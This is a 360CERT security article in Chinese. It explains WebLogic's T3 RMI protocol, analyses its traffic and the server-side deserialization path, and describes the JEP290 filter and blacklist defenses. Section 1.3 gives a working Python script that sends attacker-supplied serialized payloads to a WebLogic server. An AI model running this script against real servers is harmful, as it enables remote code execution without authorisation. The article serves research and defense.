

# Weblogic t3 协议利用与防御


                                阅读量   
                                **777983**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                    


[](./img/201432/t01bbcd830ac857ddc0.png)


作者：Hu3sky@360CERT

# 0x00 前置知识

`weblogic t3`协议指的是`weblogic`的`rmi`使用的`t3`协议，在`java rmi`中，默认`rmi`使用的是`jrmp`协议，`weblogic`包含了高度优化的`RMI`实现

在一般的基于`jrmp`的`rmi`，通信由4个部分组成

```
客户端对象
服务端对象
客户端代理对象（stub）
服务端代理对象（skeleton）
```

`webLogic`支持动态生成客户端`Stub`和服务器端`skeleton`，从而无需为`RMI`对象生成客户端`Stub`和服务器端`skeleton`，将对象部署到`RMI 注册中心`或`JNDI`时，`webLogic`将自动生成必要的代理

`RMI`注册中心会随着`weblogic`服务的启动自动运行。

# 0x01 实现正常t3类的调用

接下来我们看一个例子来了解weblogic rmi 首先创建一个`interface`

```
package com.hu3sky.t3;

public interface Hello extends java.rmi.Remote{
    public void sayHello() throws java.rmi.RemoteException;;
}
```

实现类

```
package com.hu3sky.t3;

import java.rmi.RemoteException;

public class HelloImpl implements Hello {
    @Override
    public void sayHello() throws RemoteException {
        System.out.println("hello");
    }
}
```

`WebLogic`不需要`rmi`对象的实现类扩展 `UnicastRemoteObject`。在一般的`rmi`对象中是必须要继承`UnicastRemoteObject`的

Server端

```
package com.hu3sky.t3;

import javax.naming.*;
import java.util.Hashtable;

public class Server {

    // The factory to use when creating our initial context
    public final static String JNDI_FACTORY="weblogic.jndi.WLInitialContextFactory";

    /**
     * Create an instance of the Implementation class
     * and bind it in the registry.
     */
    public static void main(String[] args) {
        try {
            Context ctx = getInitialContext("t3://127.0.0.1:7001");
            ctx.bind("HelloServer", new HelloImpl());
            System.out.println("HelloImpl created and bound to the JNDI");
        }
        catch (Exception e) {
            System.out.println("HelloImpl.main: an exception occurred!");
            e.printStackTrace(System.out);
        }
    }

    /* Creates the Initial JNDI Context */
    private static InitialContext getInitialContext(String url) throws NamingException {
        Hashtable env = new Hashtable();
        env.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env.put(Context.PROVIDER_URL, url);
        return new InitialContext(env);
    }
}
```

Client端

```
package com.hu3sky.t3;

import java.util.Hashtable;
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class Client {
    // Defines the JNDI context factory.
    public final static String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";

    public Client() {
    }

    public static void main(String[] args) throws Exception {

        try {
            InitialContext ic = getInitialContext("t3://127.0.0.1:7001");
            Hello obj = (Hello) ic.lookup("HelloServer");
            System.out.println("Successfully connected to HelloServer , call sayHello() : "+obj.sayHello());
        } catch (Exception ex) {
            System.err.println("An exception occurred: " + ex.getMessage());
            throw ex;
        }
    }

    private static InitialContext getInitialContext(String url)
            throws NamingException {
        Hashtable&lt;String, String&gt; env = new Hashtable&lt;String, String&gt;();
        env.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env.put(Context.PROVIDER_URL, url);
        return new InitialContext(env);
    }


}
```

然而，此时还无法直接运行，需要使用WebLogic启动类注册RMI对象

步骤如下：
1. 修改项目pom，打包为jar
```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;project xmlns="[http://maven.apache.org/POM/4.0.0](http://maven.apache.org/POM/4.0.0)"
         xmlns:xsi="[http://www.w3.org/2001/XMLSchema-instance](http://www.w3.org/2001/XMLSchema-instance)"
         xsi:schemaLocation="[http://maven.apache.org/POM/4.0.0](http://maven.apache.org/POM/4.0.0) [http://maven.apache.org/xsd/maven-4.0.0.xsd](http://maven.apache.org/xsd/maven-4.0.0.xsd)"&gt;
    &lt;modelVersion&gt;4.0.0&lt;/modelVersion&gt;

    &lt;groupId&gt;com.hu3sky&lt;/groupId&gt;
    &lt;artifactId&gt;t3&lt;/artifactId&gt;
    &lt;version&gt;1.0-SNAPSHOT&lt;/version&gt;

    &lt;build&gt;
        &lt;plugins&gt;
            &lt;plugin&gt;
                &lt;groupId&gt;org.apache.maven.plugins&lt;/groupId&gt;
                &lt;artifactId&gt;maven-compiler-plugin&lt;/artifactId&gt;
                &lt;configuration&gt;
                    &lt;source&gt;1.8&lt;/source&gt;
                    &lt;target&gt;1.8&lt;/target&gt;
                &lt;/configuration&gt;
            &lt;/plugin&gt;
            &lt;plugin&gt;
                &lt;groupId&gt;org.apache.maven.plugins&lt;/groupId&gt;
                &lt;artifactId&gt;maven-jar-plugin&lt;/artifactId&gt;
                &lt;configuration&gt;
                    &lt;archive&gt;
                        &lt;manifest&gt;
                            &lt;addClasspath&gt;true&lt;/addClasspath&gt;
                            &lt;useUniqueVersions&gt;false&lt;/useUniqueVersions&gt;
                            &lt;classpathPrefix&gt;lib/&lt;/classpathPrefix&gt;
                            &lt;mainClass&gt;com.hu3sky.t3.Server&lt;/mainClass&gt;
                        &lt;/manifest&gt;
                    &lt;/archive&gt;
                &lt;/configuration&gt;
            &lt;/plugin&gt;
        &lt;/plugins&gt;
    &lt;/build&gt;

&lt;/project&gt;
```
1. 将jar包复制到域的/lib文件下，重启weblogic即可
成功后查看jndi树，会发现HelloServer成功被加载 [](https://p403.ssl.qhimgs4.com/t0110a4894c9c3cf2b6.png)接着我们再运行一下Client [](https://p403.ssl.qhimgs4.com/t0129f86472da8771f9.png)成功调用`Server`上的`sayHello`方法

## 1.1 分析流量

这是`7001`端口上的数据包，红色是客户端向服务器请求数据，蓝色的是服务器返回数据 可以看到发送的第一个数据包为T3协议头，其中第一行为`t3`加`weblogic`客户端的版本号,weblogic服务器的返回数据的第一行为`HELO:`加`weblogic`服务器的版本号。`weblogic`客户端与服务器发送的数据均以`\n\n`结尾。 [](https://p403.ssl.qhimgs4.com/t014b40f09787e1e3d5.png)最后返回`Hello World` [](https://p403.ssl.qhimgs4.com/t013d4258667f31132c.png)我们再看下hex，不难发现其中的 `ac ed 00 05` 序列化魔术头，而且不止一处 [](https://p403.ssl.qhimgs4.com/t015491a3d926777aa8.png)通过观察请求数据包，我们可以发现请求的数据包可以分为多个部分，我这里分离出了九个部分 第一部分的前四个字节为整个数据包的长度，第二至九部分均为JAVA序列化数据

其中第二到九部分序列化的类是

```
weblogic.rjvm.ClassTableEntry
weblogic.rjvm.ClassTableEntry
weblogic.rjvm.ClassTableEntry
weblogic.rjvm.JVMID
weblogic.rjvm.JVMID  
weblogic.rjvm.ClassTableEntry
weblogic.rjvm.ImmutableServiceContext
weblogic.rjvm.ImmutableServiceContext
```

从这里的红框部分开始，为第一个部分，后面的都是以 `ac ed 00 05` 开头的魔术头的反序列化部分 [](https://p403.ssl.qhimgs4.com/t01381a220d6527c560.png)中间其他部分就省略了 [](https://p403.ssl.qhimgs4.com/t01cb825fee0bcf0b7d.png)

## 1.2 利用t3协议进行恶意序列化

在编写利用的过程中，需要发送两部分的数据
<li style="box-sizing: border-box;">
请求包头，也就是
<pre style="box-sizing: border-box; overflow: auto; font-family: Menlo, Monaco, Consolas, 'Courier New', monospace; font-size: 13px; display: block; padding: 9.5px; margin: 0px 0px 10px; line-height: 1.42857143; color: #333333; word-break: break-all; word-wrap: break-word; background-color: #f5f5f5; border: 1px solid #cccccc; border-top-left-radius: 4px; border-top-right-radius: 4px; border-bottom-right-radius: 4px; border-bottom-left-radius: 4px;"><code style="box-sizing: border-box; font-family: Menlo, Monaco, Consolas, 'Courier New', monospace; font-size: inherit; color: inherit; border-top-left-radius: 0px; border-top-right-radius: 0px; border-bottom-right-radius: 0px; border-bottom-left-radius: 0px; padding: 0px; white-space: inherit; word-break: keep-all;" class="hljs cpp">t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://localhost:7001\nLP:DOMAIN\n\n
</code></pre>
以`\n`结束
</li>
<li style="box-sizing: border-box;">
序列化数据部分，序列化部分的构成方式有两种：
<ul style="box-sizing: border-box; margin-top: 0px; margin-bottom: 20px; margin-left: 18px; padding: 0px; line-height: 2.2;">
- 第一种生成方式为，将前文所述的weblogic发送的JAVA序列化数据的第二到九部分的JAVA序列化数据的任意一个替换为恶意的序列化数据。
- 第二种生成方式为，将前文所述的weblogic发送的JAVA序列化数据的第一部分与恶意的序列化数据进行拼接
必须先发送`T3`协议头数据包，再发送`JAVA`序列化数据包，才能使`weblogic`进行`JAVA`反序列化，进而触发漏洞。如果只发送`JAVA`序列化数据包，不先发送`T3`协议头数据包，无法触发漏洞

## 1.3 脚本编写

这里我采取第二种方法进行脚本的编写，思路是：
1. 建立socket请求
1. 发送t3请求数据头
1. 读取恶意序列化数据，将其拼接至第一部分序列化数据之后
1. 将前四个字节的长度进行替换
1. 发送恶意数据
脚本如下

```
#!/usr/bin/python
import socket
import os
import sys
import struct

if len(sys.argv) &lt; 3:
    print 'Usage: python %s &lt;host&gt; &lt;port&gt; &lt;/path/to/payload&gt;' % os.path.basename(sys.argv[0])
    sys.exit()

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.settimeout(5)

server_address = (sys.argv[1], int(sys.argv[2]))
print '[+] Connecting to %s port %s' % server_address
sock.connect(server_address)

# Send headers
headers='t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://localhost:7001\nLP:DOMAIN\n\n'
print 'sending "%s"' % headers
sock.sendall(headers)

data = sock.recv(1024)
print &gt;&gt;sys.stderr, 'received "%s"' % data

payloadObj = open(sys.argv[3],'rb').read()

payload = '\x00\x00\x05\xf5\x01\x65\x01\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00\x71\x00\x00\xea\x60\x00\x00\x00\x18\x45\x0b\xfc\xbc\xe1\xa6\x4c\x6e\x64\x7e\xc1\x80\xa4\x05\x7c\x87\x3f\x63\x5c\x2d\x49\x1f\x20\x49\x02\x79\x73\x72\x00\x78\x72\x01\x78\x72\x02\x78\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x01\x00\x70\x70\x70\x70\x70\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x01\x00\x70\x06\xfe\x01\x00\x00'
payload=payload+payloadObj

# adjust header for appropriate message length
payload=struct.pack('&gt;I',len(payload)) + payload[4:]

print '[+] Sending payload...'
sock.send(payload)
data = sock.recv(1024)
print &gt;&gt;sys.stderr, 'received "%s"' % data
```

[](https://p403.ssl.qhimgs4.com/t01e8189501685b787e.png)

# 0x02 服务端反序列化部分源码分析

这里只做部分分析，分析的比较浅，如果有地方分析有误还请师傅指出 通过观察log里的错误，可以发现调用栈

```
java.io.EOFException
    at weblogic.utils.io.DataIO.readUnsignedByte(DataIO.java:435)
    at weblogic.utils.io.DataIO.readLength(DataIO.java:829)
    at weblogic.utils.io.ChunkedDataInputStream.readLength(ChunkedDataInputStream.java:150)
    at weblogic.utils.io.ChunkedObjectInputStream.readLength(ChunkedObjectInputStream.java:206)
    at weblogic.rjvm.InboundMsgAbbrev.read(InboundMsgAbbrev.java:43)
    at weblogic.rjvm.MsgAbbrevJVMConnection.readMsgAbbrevs(MsgAbbrevJVMConnection.java:325)
    at weblogic.rjvm.MsgAbbrevInputStream.init(MsgAbbrevInputStream.java:219)
    at weblogic.rjvm.MsgAbbrevJVMConnection.dispatch(MsgAbbrevJVMConnection.java:557)
    at weblogic.rjvm.t3.MuxableSocketT3.dispatch(MuxableSocketT3.java:666)
    at weblogic.socket.BaseAbstractMuxableSocket.dispatch(BaseAbstractMuxableSocket.java:397)
    at weblogic.socket.SocketMuxer.readReadySocketOnce(SocketMuxer.java:993)
    at weblogic.socket.SocketMuxer.readReadySocket(SocketMuxer.java:929)
    at weblogic.socket.NIOSocketMuxer.process(NIOSocketMuxer.java:599)
    at weblogic.socket.NIOSocketMuxer.processSockets(NIOSocketMuxer.java:563)
    at weblogic.socket.SocketReaderRequest.run(SocketReaderRequest.java:30)
    at weblogic.socket.SocketReaderRequest.execute(SocketReaderRequest.java:43)
    at weblogic.kernel.ExecuteThread.execute(ExecuteThread.java:147)
    at weblogic.kernel.ExecuteThread.run(ExecuteThread.java:119)
```

或者在idea里进行调试，也能看到调用栈 [](https://p403.ssl.qhimgs4.com/t01cedd21c982dadc6a.png)

```
关于muxer，`WebLogic Server`使用称为复用器(`muxer`)的软件模块来读取服务器上的传入请求和客户端上的传入响应，`SocketMuxer`管理服务器的现有套接字连接。它首先确定哪些套接字具有等待处理的传入请求。然后，它读取足够的数据来确定协议，并根据协议将套接字分配到适当的运行时层。在运行时层，套接字混合器线程确定要使用的执行线程队列，并相应地委派请求
```

## 2.1 SocketMuxer初始化

先看到`SocketMuxer`初始化。在 [](https://p403.ssl.qhimgs4.com/t0153ccd80ba1d8236d.png)

调用`initSocketMuxerOnServer`，需要返回`singleton`的值 [](https://p403.ssl.qhimgs4.com/t01a32fbd098ddfe318.png)该值为makeTheMuxer函数的return值 [](https://p403.ssl.qhimgs4.com/t0159d8835a7266e245.png)由于`KernelStatus.isServer()`返回`true`，所以直接调用`getNativeMuxerClassName()`，获取本地`muxer` [](https://p403.ssl.qhimgs4.com/t019f620fdc241393c2.png)这里根据内核配置获取到的为`NIOSocketMuxer` [](https://p403.ssl.qhimgs4.com/t01ad207d518528777c.png)获取完之后，调用`muxerClassName`的构造函数 [](https://p403.ssl.qhimgs4.com/t012b1432494055626b.png)会创建Selector [](https://p403.ssl.qhimgs4.com/t0137996752510f4307.png)其中`sockets`成员变量来自抽象类`SocketMuxer` [](https://p403.ssl.qhimgs4.com/t0176631342fcda8997.png)接着开启 `socketReader` 线程 [](https://p403.ssl.qhimgs4.com/t0139c3ff981c82544f.png)看到`SocketReaderRequest.run`，`getMuxer`返回`NIOSocketMuxer` [](https://p403.ssl.qhimgs4.com/t01447a92113045a7b2.png)跟进`NIOSocketMuxer.processSockets` 首先会调用`selectFrom`，这里会获取注册过的一些变量，比如`sockets`

(注册大致如下，就不细说了 [](https://p403.ssl.qhimgs4.com/t01e7ac59e9eb81135c.png))

## 2.2 分派创建T3 Muxer

接着看`process`方法，这里的`SelectionKey`键表示了一个特定的通道对象和一个特定的选择器对象之间的注册关系。 [](https://p403.ssl.qhimgs4.com/t0155e8fc933c192a7c.png)`ms`是从`NIOSocketMuxer`中获取`sockets`，这里为`MuxableSocketDiscriminator`，用来鉴别套接字，之后再分发给相应的`Muxer` [](https://p403.ssl.qhimgs4.com/t01dd8619bd8a50a2de.png)跟进`readReadySocket` [](https://p403.ssl.qhimgs4.com/t01bdadab2586eb34d8.png)然后调用`dispatch` [](https://p403.ssl.qhimgs4.com/t014b5ea643702a645d.png) 这里会根据我们发送的套接字数据，判断协议，返回`t3` [](https://p403.ssl.qhimgs4.com/t0198c47f633bf899a9.png)接着调用`ProtocolHandlerT3.createSocket`，创建相关的 `Muxer` [](https://p403.ssl.qhimgs4.com/t0150edbf2bd47d6767.png)[](https://p403.ssl.qhimgs4.com/t012edb3386b6d68302.png)

调用父类构造方法对`channel`等变量进行初始化，接着将`connection`变量赋值为`T3MsgAbbrevJVMConnection` [](https://p403.ssl.qhimgs4.com/t01c8b9aa6f6c1589d7.png)

```
this.connection.setDispatcher(ConnectionManager.create((RJVMImpl)null), false);
```

看到`ConnectionManager.create` [](https://p403.ssl.qhimgs4.com/t010fb889503affc60b.png)`RJVMEnvironment`环境为`true`,返回`classname`为`weblogic.rjvm.ConnectionManagerServer`，也就是`dispatcher`，然后调用`setDispatcher`设置`dispatcher`

创建完`muxer`之后，移除之前的`sockets`，也就是`MuxableSocketDiscriminator`，重新注册`sockets`为`MuxableSocketT3`

[](https://p403.ssl.qhimgs4.com/t0129aae1dccf9e33d0.png)

## 2.3 T3 Muxer 反序列化socket数据

再次循环调用`process` [](https://p403.ssl.qhimgs4.com/t015154b7b2d4174007.png)传入`ms`，也就是`MuxableSocketT3`，跟入`readReadySocket` [](https://p403.ssl.qhimgs4.com/t019100c0564245ae33.png)接着调用`readReadySocketOnce` [](https://p403.ssl.qhimgs4.com/t01e16b8aa1eac0b18e.png)往下走，调用`dispatch`进行分发 [](https://p403.ssl.qhimgs4.com/t01d690f65052f0e9ea.png)由于`MuxableSocketT3`没有无参的`dispatch`函数，于是调用父类`BaseAbstractMuxableSocket`的`dispatch` `makeChunkList`返回`socket`数据流，作为参数传入`dispatch` [](https://p403.ssl.qhimgs4.com/t012eec21fd1577d9bf.png)接着调用`T3MsgAbbrevJVMConnection.dispatch` [](https://p403.ssl.qhimgs4.com/t01a6dc226c9af725df.png)从之前设置的`dispatcher`获取`incomingMessage` [](https://p403.ssl.qhimgs4.com/t01f4cde18912a0f5da.png)调用`connection.readMsgAbbrevs` [](https://p403.ssl.qhimgs4.com/t01154de946fbc3df02.png)跟进`read`函数 [](https://p403.ssl.qhimgs4.com/t01266309dc0a6d821c.png)调用`readObject`函数 [](https://p403.ssl.qhimgs4.com/t0101fd4b0970f33c6c.png)用`InboundMsgAbbrev.ServerChannelInputStream`处理数据之后，调用`ObjectInpuStream.readObject`造成反序列化 [](https://p403.ssl.qhimgs4.com/t01f293b7cdc9f152bb.png)

# 0x03 防御机制

## 3.1 JEP290机制

JEP290机制是用来过滤传入的序列化数据，以提高安全性，其核心机制是序列化客户端需要实现`ObjectInputStream`上的`ObjectInputFilter`接口（低于`jdk9`的版本是在`sun.misc`这个`package`下，而`jdk9`是在 `java.io` 这个`package`下），利用`checkInput`方法来对序列化数据进行检测，如果有任何不合格的检测，`Filter`将返回`Status.REJECTED`

jdk9向下增加jep290机制的jdk版本为

```
Java™ SE Development Kit 8, Update 121 (JDK 8u121)
Java™ SE Development Kit 7, Update 131 (JDK 7u131)
Java™ SE Development Kit 6, Update 141 (JDK 6u141)
```

这里使用测试版本`jdk8u221` 图上的流程已经很明显了，我们来看看如果被`jdk`拦截是什么样子的，这里我随便用了`CommonsCollections`的`gadget`做测试，使用的测试版本`jdk8u221`

### 3.1.1 filterCheck

最终的拦截调用是 `readOrdinaryObject-&gt;readClassDesc-&gt;readNonProxyDesc-&gt;filterCheck`

[](https://p403.ssl.qhimgs4.com/t01c37331eeeaf253a1.png)这里的`ObjectInputFilter`类型变量`serialFilter`，`serialFilter`的值是作为 `JEP290`对序列化数据进行检测的一个格式(里面包含需要做检测的默认值，用分号隔开。包名后面需要带星号，包名或者类名前面带感叹号的话表示黑名单，没有则表示白名单)

具体细则 [](https://p403.ssl.qhimgs4.com/t015cf672f1da636c1e.png)

这里的`serialFilter`值如下

```
maxdepth=100;
!org.codehaus.groovy.runtime.ConvertedClosure;
!org.codehaus.groovy.runtime.ConversionHandler;
!org.codehaus.groovy.runtime.MethodClosure;
!org.springframework.transaction.support.AbstractPlatformTransactionManager;
!java.rmi.server.UnicastRemoteObject;
!java.rmi.server.RemoteObjectInvocationHandler;
!com.bea.core.repackaged.springframework.transaction.support.AbstractPlatformTransactionManager;
!java.rmi.server.RemoteObject;
!org.apache.commons.collections.functors.*;
!com.sun.org.apache.xalan.internal.xsltc.trax.*;
!javassist.*;
!java.rmi.activation.*;
!sun.rmi.server.*;
!org.jboss.interceptor.builder.*;
!org.jboss.interceptor.reader.*;
!org.jboss.interceptor.proxy.*;
!org.jboss.interceptor.spi.metadata.*;
!org.jboss.interceptor.spi.model.*;
!com.bea.core.repackaged.springframework.aop.aspectj.*;
!com.bea.core.repackaged.springframework.aop.aspectj.annotation.*;
!com.bea.core.repackaged.springframework.aop.aspectj.autoproxy.*;
!com.bea.core.repackaged.springframework.beans.factory.support.*;
!org.python.core.*
```

### 3.1.2 serialFilter赋值过程

来看看`weblogic`是如何初始化这个值的，`weblogic`在启动`t3`Server的时候，会进行`filter`的初始化，在初始化的时候，首先会实例化`JreFilterApiProxy`这个类 [](https://p403.ssl.qhimgs4.com/t01191b264836c02972.png)这里主要通过反射获取`ObjectInputFilter`的方法，当做一个api来使用，同时会调用`determineJreFilterSupportLevel`方来判断`ObjectInputFilter`的`package` [](https://p403.ssl.qhimgs4.com/t015b6a8b82b2894a3b.png)接着会调用到`weblogic.utils.io.oif.WebLogicFilterConfig`的构造方法

[](https://p403.ssl.qhimgs4.com/t01d2ca7b8c0fbe1205.png)

[](https://p403.ssl.qhimgs4.com/t014d11a946f8202098.png)为初始化前，`FilterProperties`和`BlacklistProperties`都为`null`，都返回`false`， 于是跟进`processDefaultConfiguration`方法

[](https://p403.ssl.qhimgs4.com/t01f68f7a68eaacc6b5.png)

接着调用`getDefaultFilterScope`判断当前jdk，我们测试版本是`8u221`，返回`GLOBAL` [](https://p403.ssl.qhimgs4.com/t012289d04c3a41eab2.png)接着是`constructSerialFilter`，开始对`serialFilter`进行赋值，主要是对`serialFilter`的格式进行统一 黑名单主要来自`DEFAULT_BLACKLIST_CLASSES`和`DEFAULT_BLACKLIST_PACKAGES`， [](https://p403.ssl.qhimgs4.com/t01382edd24c5328f34.png)`serialFilter`的赋值结束后，会通过反射调用`ObjectInputFilter.setSerialFilter`，对`ObjectInputFilter`接口的`serialFilter`赋值 [](https://p403.ssl.qhimgs4.com/t0149bb0d7dea98a394.png)再之后，就是上文的`ObjectInputFilter.checkInput`的调用了 具体的检测过程如下 [](https://p403.ssl.qhimgs4.com/t01b9b7076cb7e1edae.png)这就是在jep290的机制下的weblogic配合jdk `ObjectInputFilter` 的一个检测过程，就是一个基于类/包的黑名单检测，还是存在绕过的可能性，比如最近的 `CVE-2020-2555` 的 `gadgets`，可以参考 [CVE-2020-2555 漏洞分析](https://cert.360.cn/report/detail?id=15b04e663cc63500a05abde22266b2ee)

## 3.2 jdk版本过低没有JEP290机制

接下来，修改启动版本为`jdk8u91` 先来看日志报错

### 3.2.1 黑名单赋值

跟进代码看看`weblogic`启动t3的时候，依然是跟进到`JreFilterApiProxy` [](https://p403.ssl.qhimgs4.com/t010163559b1062e40e.png)`determineJreFilterSupportLevel`方法，由于加载不到`ObjectInputFilter`，所以直接将`FilterSupportLevel`设置为`NULL`，也就不会进入到下面的if判断里了，`initialized`属性也不会被设置为`true` [](https://p403.ssl.qhimgs4.com/t019f55ee5de10708d1.png)`initialized`为`false`，返回`isJreFilteringAvailable`也为`false` [](https://p403.ssl.qhimgs4.com/t013be3ccf6071eff61.png)

接着往下走，依然会实例化`WebLogicFilterConfig`，初始化黑名单，这里和jep290有些区别 [](https://p403.ssl.qhimgs4.com/t0101bea8f56260f58e.png)调用`constructLegacyBlacklist`，就是一个将`DEFAULT_BLACKLIST_CLASSES`和`DEFAULT_BLACKLIST_PACKAGES`赋值给存放黑名单属性的函数，最后赋值给`LEGACY_BLACKLIST`属性 [](https://p403.ssl.qhimgs4.com/t01340c1ac4d267790a.png)

### 3.2.2 resolveClass

在普通的java反序列化的过程中会调用`resolveClass`读取反序列化的类名，所以我们可以通过重写`ObjectInputStream`对象的`resolveClass`方法即可实现对反序列化的校验，来看`weblogic`是如何实现的

根据错误日志，定位到`weblogic.rjvm.InboundMsgAbbrev$ServerChannelInputStream`。

我们看到反序列化的点 [](https://p403.ssl.qhimgs4.com/t0162e8d02059f87d4f.png)这里将类型转换为`ServerChannelInputStream`，该类继承了`ObjectInputStream` [](https://p403.ssl.qhimgs4.com/t017e403dd12e5924a4.png)

并且重写了`resolveClass` [](https://p403.ssl.qhimgs4.com/t01ba8ec364a4f648bc.png)在反序列化的时候，就会优先调用重写的`resolveClass` [](https://p403.ssl.qhimgs4.com/t017981c68885a6cb25.png)

接着跟进`checkLegacyBlacklistIfNeeded` [](https://p403.ssl.qhimgs4.com/t0147e00e82bf067a53.png)这里首先会判断`isJreFilteringAvailable`属性(**jep290机制下该值为`true`，所以不会用这种方法进行检测**)，然后会调用`isBlacklistedLegacy`判断反序列化类是否在黑名单里 [](https://p403.ssl.qhimgs4.com/t01567bb3c447b16e8e.png)

最后通过一张“JSON反序列化之殇_看雪安全开发者峰会”的时序图进行总结 [](https://p403.ssl.qhimgs4.com/t01248bc9c9e4ce52b9.png)

## 0x04 时间线

**2020-03-20** 360-CERT 发布报告

## 0x05 参考链接
1. [https://docs.oracle.com/middleware/1213/wls/WLRMI/rmi_imp.htm#WLRMI146](https://docs.oracle.com/middleware/1213/wls/WLRMI/rmi_imp.htm#WLRMI146)
1. [https://docs.oracle.com/middleware/1213/wls/WLACH/taskhelp/jndi/ViewObjectsInTheJNDITree.html](https://docs.oracle.com/middleware/1213/wls/WLACH/taskhelp/jndi/ViewObjectsInTheJNDITree.html)
1. [https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#weblogic](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#weblogic)
1. [http://drops.xmd5.com/static/drops/web-13470.html](http://drops.xmd5.com/static/drops/web-13470.html)
1. [https://stackoverflow.com/questions/1623692/what-is-weblogic-socket-muxer](https://stackoverflow.com/questions/1623692/what-is-weblogic-socket-muxer)
1. [http://openjdk.java.net/jeps/290](http://openjdk.java.net/jeps/290)
1. [https://paper.seebug.org/454/](https://paper.seebug.org/454/)
1. [https://mp.weixin.qq.com/s?**biz=Mzg2OTA0Njk0OA==&amp;mid=2247484951&amp;idx=1&amp;sn=0cef67df4b883b198da467c927533316&amp;source=41#wechat_redirecthttps://mp.weixin.qq.com/s?**biz=Mzg2OTA0Njk0OA==&amp;mid=2247484951&amp;idx=1&amp;sn=0cef67df4b883b198da467c927533316&amp;source=41#wechat_redirect](https://mp.weixin.qq.com/s?__biz=Mzg2OTA0Njk0OA==&amp;mid=2247484951&amp;idx=1&amp;sn=0cef67df4b883b198da467c927533316&amp;source=41#wechat_redirecthttps://mp.weixin.qq.com/s?__biz=Mzg2OTA0Njk0OA==&amp;mid=2247484951&amp;idx=1&amp;sn=0cef67df4b883b198da467c927533316&amp;source=41#wechat_redirect)
1. [Java_JSON反序列化之殇_看雪安全开发者峰会.pdf](https://github.com/shengqi158/fastjson-remote-code-execute-poc/blob/master/Java_JSON%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8B%E6%AE%87_%E7%9C%8B%E9%9B%AA%E5%AE%89%E5%85%A8%E5%BC%80%E5%8F%91%E8%80%85%E5%B3%B0%E4%BC%9A.pdf)